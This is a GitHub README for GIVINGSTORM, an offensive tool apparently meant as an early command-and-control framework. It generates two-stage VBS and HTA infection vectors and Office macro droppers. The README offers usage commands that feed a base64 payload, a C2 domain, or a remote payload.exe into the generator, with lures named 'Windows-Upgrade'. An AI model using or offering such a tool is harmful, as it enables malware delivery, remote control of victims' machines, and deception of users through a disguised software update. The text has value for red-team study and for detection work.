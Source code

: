 # GIVINGSTORM
[[![MIT license](https://img.shields.io/badge/License-MIT-blue.svg)](https://lbesson.mit-license.org/)
[![PyPI pyversions](https://img.shields.io/pypi/pyversions/ansicolortags.svg)](https://pypi.python.org/pypi/ansicolortags/)
[![Maintenance](https://img.shields.io/badge/Maintained%3F-yes-green.svg)](https://GitHub.com/Naereen/StrapDown.js/graphs/commit-activity)
[![GitHub release](https://img.shields.io/github/release/Naereen/StrapDown.js.svg)](https://GitHub.com/Naereen/StrapDown.js/releases/)

The beginnings of a C2 framework. Currently without all the C2 stuff so far. Generates
a dual stage VBS infection vector, and a dual stage HTA infection vector. The variables take
into account C2 addresses, Koadic/Empire payloads, and a few delivery mechanisms. The payload
files are output to an aptly named directory "Payloads" that is created if not already present.

# Installation & Usage
GIVINGSTORM is a breeze to use. Simply clone the directory, and cd into it.

For the HTA payload:
  `python3 givingstorm.py -n Windows-Upgrade -p b64encodedpayload -c amazon.com/c2/domain`

# HTA Example
![alt text](https://github.com/nins3i/GIVINGSTORM/blob/master/hta.png)

For the Macro Subroutine:
  `python3 givingstorm.py -n Windows-Upgrade -e amazon.com/final/payload.exe`

# Macro Example
![alt text](https://github.com/nins3i/GIVINGSTORM/blob/master/macro.png)
